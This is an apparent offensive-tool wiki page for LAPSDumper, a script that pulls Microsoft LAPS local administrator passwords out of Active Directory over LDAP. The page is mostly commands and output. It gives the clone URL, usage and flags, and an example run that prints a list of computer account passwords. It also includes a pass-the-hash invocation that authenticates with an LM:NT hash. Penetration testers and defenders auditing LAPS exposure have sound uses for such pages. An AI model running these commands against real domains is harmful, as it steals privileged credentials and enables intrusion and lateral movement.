```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'LDAP', 'Active Directory']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

## Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

## Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

## Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

## Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

#### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

## URL List

* [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
* [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
* [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
* [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
